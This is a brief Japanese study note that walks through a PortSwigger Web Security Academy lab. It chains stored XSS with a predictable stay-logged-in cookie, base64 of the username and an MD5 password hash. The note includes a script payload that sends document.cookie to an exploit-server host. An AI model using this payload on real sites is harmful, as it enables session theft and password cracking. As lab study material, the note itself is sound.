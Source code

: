 
Date: 2025-09-26
Tags: 
Links:  [[WSA]], [[Authentication Vulnerabilities]]

***

脆弱性
1. コメントセクションにjavascriptを埋め込める。Stored XSS
2. コメントを投稿するとstay-logged-inクッキーも送られる。
3. stay-logged-inクッキーが予測可能。


Writeup
1. コメント欄に<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`投稿。
2. 送られてきたクッキーを解読。`base64(username+':'+md5HashOfPassword)`の形式になっている。



***
# References

https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking